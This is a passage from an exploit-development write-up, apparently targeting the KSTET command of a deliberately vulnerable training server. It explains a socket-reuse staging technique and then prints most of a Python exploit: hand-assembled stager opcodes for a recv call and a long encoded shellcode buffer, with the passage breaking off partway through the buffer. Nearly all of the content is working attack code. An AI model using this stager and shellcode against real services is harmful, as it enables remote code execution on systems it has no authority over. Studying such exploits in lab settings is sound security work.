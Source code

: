 We have crafted our shellcode which is made up of ```351 bytes``` and it is almost impossible to send our payload in buffer data or in ESP

So lets use ```staging exploitation``` technique to send this payload by ```socket reuse stager```

## Exploitation

The final exploit for ```KSTET``` command is,

```c
import socket, sys
from time import sleep

file_descriptor=b""
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
```